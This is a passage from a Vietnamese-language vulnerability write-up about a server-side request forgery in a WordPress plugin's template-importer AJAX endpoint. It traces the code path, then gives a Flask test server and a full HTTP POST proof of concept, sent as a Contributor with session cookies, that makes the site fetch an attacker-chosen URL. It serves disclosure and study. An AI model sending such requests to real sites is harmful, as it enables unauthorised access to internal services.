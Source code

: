 ```php
$api_uri = isset( $_REQUEST['api_uri'] ) ? esc_url_raw( $_REQUEST['api_uri'] ) : '';
$request_params = array( '_fields' => 'original_content' );
$demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

$response = wp_remote_get( $demo_api_uri, $api_args );
```

Cuối cùng sẽ decode response và trả về dạng JSON với key `original_content`

```php
$data = json_decode( wp_remote_retrieve_body( $response ), true );
wp_send_json_success( $data['original_content'] );
```

`template_importer()` được đăng ký làm callback cho action hook:

```php
add_action( 'wp_ajax_ast_block_templates_importer', array( $this, 'template_importer' ) );
```

Tức, khi truy cập endpoint `/wp-admin/admin-ajax/php` với `action=ast_block_templates_importer` thì `template_importer()` được gọi.
## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, jsonify, request, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/test')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "original_content": "XNXX.COM"
}
```

### Proof of Concept (PoC)

1. Tạo post và lấy `_ajax_nonce`
2. Gửi request với `api_uri` trỏ đến local service `http://127.0.0.1:8001/test` bằng user **Contributor**

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, text/javascript, */*; q=0.01
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7Cf3dc677b2e483f598ad00a36fbd2f18ed1ed5015b39fc2df533aeb573a8dc3fd; wp-settings-time-2=1761027443; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7C1e8333233a2233576e988302d4f19d5c92470de4cc2bf4c1e31fb65788a44d35

action=ast_block_templates_importer&_ajax_nonce=3ef4c6d6df&api_uri=http://127.0.0.1:8001/test
```
